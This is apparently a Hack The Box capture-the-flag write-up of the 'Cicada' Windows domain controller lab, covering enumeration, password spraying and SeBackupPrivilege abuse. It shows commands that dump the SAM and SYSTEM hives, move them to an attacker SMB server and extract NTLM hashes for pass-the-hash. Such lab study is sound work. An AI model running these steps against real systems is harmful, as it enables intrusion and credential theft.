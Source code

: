 ```yaml
---
title: HTB Cicada
date: 2024-11-12 08:50:00 +/-TTTT
categories: [Hackthebox, Windows]
tags: [smb, secretsdump, sebackupprivilege]     # TAG names should always be lowercase
description: SMB enumeration revealed credentials, enabling deeper access. Using SeBackupPrivilege, SAM and SYSTEM files were dumped, revealing hashes and granting admin access for root flag.

image:
  path: assets\cicada\cropped-box-cicada.png
---
```








## Introduction
The target machine, `CICADA-DC.cicada.htb`, presents a scenario of Active Directory exploitation and privilege escalation. Initial reconnaissance using Nmap revealed common services, including LDAP, SMB, and Kerberos, indicating its a domain controller.

Through SMB enumeration credentials were obtained, enabling further authenticated enumeration. Exploiting `SeBackupPrivilege`, sensitive files (`SAM` and `SYSTEM`) were extracted and analyzed using tools like Impacket’s `secretsdump.py`, revealing password hashes. This led to full admin access and the root flag.

---
## Initial Enumeration

### Nmap Scan
```sh
nmap -sCV 10.10.11.35         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 04:22 UTC
Nmap scan report for 10.10.11.35
Host is up (0.014s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Initial Nmap Scan Findings:
-  LDAP on ports 389, 636, and 3268/3269 (over SSL).
-  SMB shares on port 445.
-  Kerberos on port 88, indicating Active Directory is in use.
-  CICADA-DC cicada.htb CICADA-DC.cicada.htb

### Fullport scan
This revealed the same ports

---
#### Port 135 RPC
```sh
rpcclient -N -U "" //10.10.11.35 
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> ^C
```
Got access denied on with a null session.

---
#### Port 3269
I navigated in the browser to `https://cicada.htb:3269/` and viewed the ssl cert:
![alt text](assets\cicada\cicada1.png)
- It looks like this host might be a certificate authority


---
### Port 445 smb
```sh
smbclient -N -L //10.10.11.35   

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share
```
We see there are `HR` and `DEV` shares, which are not default.

```sh
smb: \> ls
  .                                   D        0  Thu Mar 14 12:29:09 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 17:31:48 2024

smb: \> get "Notice from HR.txt"

getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (21.3 KiloBytes/sec) (average 21.3 KiloBytes/sec)
```
This file came with some credentials inside:
##### Creds
```
Cicada$M6Corpb*@Lp#nZp!8
```

Since we have a password we can try to enumerate usernames using netexec:
```sh
nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```


```sh
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

For additional enumeration ran `enum4linux`:
```sh
enum4linux -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
```
> Found new users and another pasword for david, they will be added to the user & password lists. 

With these credentials I managed to connect to the DEV SMB share:
![alt text](assets\cicada\cicada2.png)
This bakup script contained credentials again:
![alt](assets\cicada\cicada3.png)

---
## Initial access
Finally with these credentials I managed to get a shell using WINRM
![image](assets\cicada\cicada4.png)
Next I used evil-wirm to connect with the target, and the first thing i checked was `whoami /priv`, which reveals that i have the `SeBackupPrivilege` since this privilge is often used for privilege escalation it is a good finding. 
![Pasted](assets\cicada\cicada5.png)

---
### Privilege escalation
Within the spawning directory there were 2 valuable files that can be used for privilege escalation `sam` and `system`, so I saved these files with the following commands since I had the backup privileges:
```powershell
reg.exe save hklm\sam C:\sam.save
```
```powershell
reg.exe save hklm\system C:\system.save
```
Then I started an Impacket smbserver to transfer the files from Windows to linux:
```sh
smbserver.py hacker ./ -smb2support -username 'lol' -password 'lol'
```
Connected to the share: 
```powershell
net use n: \\10.10.14.3\hacker /user:lol lol
```
Transferred the files:
```powershell
move sam.save \\10.10.14.3\hacker
```
```powershell
move system.save \\10.10.14.3\hacker
```

Now with these files on my system I was able to run another impacket tool `secretsdump.py` with the following command:
```sh
secretsdump.py -sam sam.save -system system.save local
---

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
```
Finally with the second part of the administrator hash i was able to evil-winrm to the admin. for the root flag. 

---
## Root flag
Evil-WinRm with the hash to get the root flag.

